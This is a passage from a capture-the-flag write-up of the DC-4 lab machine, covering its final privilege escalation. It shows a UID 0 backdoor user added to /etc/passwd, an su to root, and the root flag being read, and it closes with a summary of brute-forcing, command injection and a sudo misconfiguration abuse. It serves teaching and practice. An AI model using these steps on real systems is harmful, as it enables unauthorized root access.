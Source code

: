 The `/etc/passwd` file was then checked to confirm the new user entry:

```shellscript
charles@dc-4:~$ cat /etc/passwd
# ... (existing entries)
rootclone:$6$d1DTAAyDxTQJ2Pmw$pxrUTJwQwsktpRnMIOe4xrtd87z9aPmQlObicRuRP1PHs7Pha6XvyxCujHtIYuF0HkZhANlJJZUT9/b7RcgF10:0:0:Root Clone:/root:/bin/bash
```

The `rootclone` user with UID 0 (root) was successfully added.

Finally, `su` was used to switch to the `rootclone` user:

```shellscript
charles@dc-4:~$ su rootclone
Password: MySecurePass123
root@dc-4:/home/charles# id
uid=0(root) gid=0(root) groups=0(root)
```

Root access was successfully achieved!

### 5. Root Flag

The final step was to retrieve the root flag from the `/root` directory.

```shellscript
root@dc-4:/home/charles# cd /root
root@dc-4:~# ls
flag.txt
root@dc-4:~# cat flag.txt
888       888          888 888      8888888b.
# ... (ASCII art omitted)
Congratulations!!!
Hope you enjoyed DC-4.  Just wanted to send a big thanks out there to all those
who have provided feedback, and who have taken time to complete these little
challenges.
If you enjoyed this CTF, send me a tweet via @DCAU7.
```

The root flag was the congratulatory message and ASCII art in `flag.txt`.

## Conclusion

The DC-4 challenge provided a comprehensive learning experience, covering:

1. **Reconnaissance**: Identifying the target and its open services.
2. **Web Application Brute-forcing**: Successfully bypassing a login page using a custom script to identify the correct credentials.
3. **Command Injection**: Leveraging a web interface to execute commands and gain an initial shell.
4. **Local Enumeration**: Discovering sensitive files (specifically `jim`'s mailbox at `/var/mail/jim`) containing credentials for other users.
5. **Privilege Escalation via `sudo` Misconfiguration**: Exploiting a `NOPASSWD` entry for a custom `tee` binary (`teehee`) to modify `/etc/passwd` and gain root access.


This challenge highlighted the importance of secure web application development, proper file permissions, and careful `sudo` configuration.
